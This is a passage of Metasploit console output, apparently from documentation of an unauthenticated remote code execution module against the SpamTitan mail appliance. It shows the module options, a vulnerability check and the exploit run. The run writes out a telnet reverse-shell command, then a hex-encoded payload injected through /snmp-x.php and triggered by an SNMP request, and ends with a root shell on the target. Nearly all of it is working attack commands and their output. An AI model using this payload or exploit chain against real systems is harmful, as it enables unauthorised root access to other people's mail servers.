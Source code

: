 ```
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix In-Memory


msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > check

[*] Check if /snmp-x.php exists
[*] 172.16.60.101:80 - The target appears to be vulnerable.
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[+] sh -c '(sleep 4511|telnet 172.16.60.1 4444|while : ; do sh && break; done 2>&1|telnet 172.16.60.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'perl -e system -e pack -e qq,H244,,qq,7368202d63202728736c65657020333735347c74656c6e6574203137322e31362e36302e3120343434347c7768696c65203a203b20646f20736820262620627265616b3b20646f6e6520323e26317c74656c6e6574203137322e31362e36302e312034343434203e2f6465762f6e756c6c20323e263120262927,'#
[*] Send an SNMP Get-Request to trigger the payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ldqlDor8slARqZ0Q;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "Connected: not found\r\nEscape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.60.1:4444 -> 172.16.60.101:38973) at 2020-10-28 15:56:55 +0100

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
uname -a
FreeBSD spamtitan.example.com 10.1-RELEASE-p8 FreeBSD 10.1-RELEASE-p8 #1: Wed May  6 10:36:09 IST 2015     root@stbuild-10-amd64.spamtitan.com:/usr/obj/usr/src/sys/SPAMTITAN  amd64
ifconfig
em0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
	options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
	ether 00:0c:29:cb:1d:73
	inet 172.16.60.101 netmask 0xffffff00 broadcast 172.16.60.255
	nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
```